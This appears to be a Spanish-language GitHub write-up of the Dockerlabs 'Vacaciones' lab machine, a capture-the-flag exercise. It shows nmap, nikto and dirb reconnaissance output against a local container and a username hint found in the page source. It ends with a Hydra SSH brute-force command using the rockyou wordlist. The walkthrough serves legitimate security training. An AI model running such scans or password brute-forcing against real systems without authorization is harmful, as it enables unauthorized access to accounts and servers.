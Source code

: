 # Maquina-Vacaciones

## Resolución de la Maquina Vacaciones de Dockerlabs.es "El pinguino de Mario"

## Paso N°1: Busqueda con nmap.

```bash
nmap -sV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 08:31 -03
Nmap scan report for 172.17.0.2
Host is up (0.000093s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.18 seconds
```
_Adjunto imagen:_

![01](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/981f38e1-a867-425c-a015-96e8f0f3a69d)

#################################################################################################

## Paso N°2: Busqueda con Nikto.

```bash
nikto -h http://172.17.0.2             
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.17.0.2
+ Target Hostname:    172.17.0.2
+ Target Port:        80
+ Start Time:         2024-06-23 08:44:45 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 4a, size: 616e75cb6bc40, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2024-06-23 08:45:16 (GMT-3) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
_Adjunto imagen:_ 

![02](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/5b6f778c-e799-4bd3-a45c-c99822d1e4f4)


#################################################################################################

## Paso N°3: Busqueda con dirb.

```bash
dirb http://172.17.0.2 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun 23 08:48:23 2024
URL_BASE: http://172.17.0.2/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.17.0.2/ ----
+ http://172.17.0.2/index.html (CODE:200|SIZE:74)
==> DIRECTORY: http://172.17.0.2/javascript/                                                           
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)
                                         
---- Entering directory: http://172.17.0.2/javascript/ ----
==> DIRECTORY: http://172.17.0.2/javascript/jquery/                                                    
                                                                                                       
---- Entering directory: http://172.17.0.2/javascript/jquery/ ----
+ http://172.17.0.2/javascript/jquery/jquery (CODE:200|SIZE:268026)                                                                                                   
-----------------
END_TIME: Sun Jun 23 08:48:25 2024
DOWNLOADED: 13836 - FOUND: 3
```
_Adjunto imagen:_ 

![03](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0adff950-b91c-4554-836f-d9313aefe3c6)

## _Aca podemos ver 3 directorios, dos de ellos nos envia  a paginas que no funcionan y una la "index.html" que no muestra nada pero si le damos a inspeccionar vemos un mensaje que dice: "De: Juan Para: Camilo, te he dejado un correo es importante"_
_Adjunto imagen:_ 

![05](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/6ea184f0-a4cc-41b8-b071-366cac35a497)
#################################################################################################
-----------------------------------------------------------------------------------------

![06](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0c4c2b80-f609-4d4d-a030-a40b482cd97b)
#################################################################################################
![07](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/e3b537f8-0bd7-460b-a5f2-4df80340db54)

_como sabemos que tiene el "puerto 22" abierto que es el de ssh vamos a probar con el nombre de camilo y si no funciona probamos con el de juan._

## Paso N°4: Ataque de Fuerza Bruta con Hydra.

_Asi que ahora procedemos a usar hydra de la siguiente manera:

```bash
hydra  -l camilo -P /usr/share/wordlists/rockyou.txt -t4 -vV 172.17.0.2 ssh
```



















